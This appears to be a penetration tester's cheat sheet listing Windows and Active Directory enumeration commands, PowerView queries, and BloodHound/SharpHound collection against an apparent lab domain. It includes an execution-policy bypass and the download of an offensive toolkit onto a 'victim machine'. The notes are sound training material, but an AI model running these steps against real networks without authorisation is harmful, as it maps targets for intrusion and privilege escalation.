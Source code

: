 **Initial enumeration**
SNMP community string
hostnames
domain name
System
network
passwords
AV

**AD Enumeration**
Users & Admins
SPN
GPO
AD ACLs
Domain Trust

![Description](./Screenshots/screenshot.png)


**Basics**
systeminfo
hostname
whoami
echo %username%

**users / localgroups**
net users
net localgroups

**More info about a specific user. Check if user has privileges**
net user user1

**View Domain Groups**
net group /domain

**View Members of Domain Group**
net group /domain <Group Name>

**Firewall**
netsh firewall show state
netsh firewall show config

**Network**
ipconfig /all
route print
arp -A

**How well patched is the system**
wmic qfe get Caption,Description,HotFixID,InstalledOn
	
	
# PowerView

**download wget**
http://gnuwin32.sourceforge.net/packages/wget.htm

download powerview
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Open CMD bypassing execution policy
powershell -ep bypass

luanch PV
. .\powerview.ps1

Enumeration commands 
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select samaccountname
Get-NetUser | select description
Get-UserProperty
Get-UserProperty -Properties pwdlastset
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Get-NetComputer -FullData
Get-NetComputer -FullData | select OperatingSystem
Get-NetGroup
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroup -GroupName *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO
Get-NetGPO | select displayname, whenchanged


# Bloodhound

**Attacker machine**
apt install bloodhound
neo4j console


**Victim machine**
powershell .ep bypass

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
